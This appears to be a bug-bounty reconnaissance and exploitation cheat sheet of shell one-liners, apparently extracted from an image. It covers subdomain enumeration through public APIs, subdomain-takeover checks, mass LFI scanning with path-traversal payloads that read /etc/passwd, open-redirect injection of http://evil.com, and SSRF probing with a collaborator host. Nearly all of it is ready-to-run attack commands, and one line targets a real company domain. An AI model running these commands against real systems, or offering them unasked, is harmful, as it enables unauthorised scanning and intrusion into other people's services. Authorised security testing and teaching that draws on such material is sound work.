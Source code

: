 ```
```
**from Anubis**
```
curl -s "https://jldc.me/anubis/subdomains/target.com" | jq -r '.' | grep -o "\w.*target.com"
```
**from ThreatCrowd**
```
curl -s "https://www.threatcrowd.org/searchApi/v2/domain/report/?domain=target.com" | jq -r '.subdomains' | grep -o "\w.*target.com"
```
**from HackerTarget**
```
curl -s "https://api.hackertarget.com/hostsearch/?q=target.com"
```
**from AlienVault**
```
curl -s "https://otx.alienvault.com/api/v1/indicators/domain/tesla.com/url_list?limit=100&page=1" | grep -o '"hostname": *"[^"]*' | sed 's/"hostname": "//' | sort -u
```
**from Censys**
```
censys subdomains target.com
```
--------
## Subdomain Takeover:
```
cat subs.txt | xargs -P 50 -I % bash -c "dig % | grep CNAME" | awk '{print $1}' | sed 's/\.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe
```
-------------------------------
## LFI:
```
cat targets.txt | <gau/katana/hakrawler/waybackurls> |  gf lfi |  httpx -paths lfi_wordlist.txt -threads 100 -random-agent -x GET,POST  -tech-detect -status-code -follow-redirects -mc 200 -mr "root:[x*]:0:0:"
```
```
cat targets.txt | <gau/katana/hakrawler/waybackurls> | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```
```
cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n";done
```
----------------------
## Open Redirect:
```
waybackurls target.com | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I| grep "http://evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done
```
```
cat subs.txt| waybackurls | gf redirect | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```
-----------------------
## SSRF:
```
cat urls.txt | gf ssrf | sort -u |anew | httpx | qsreplace 'burpcollaborator_link' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'
```
```
cat urls.txt | grep "=" | qsreplace "burpcollaborator_link" >> ssrf.txt; ffuf -c -w ssrf.txt -u FUZZ
```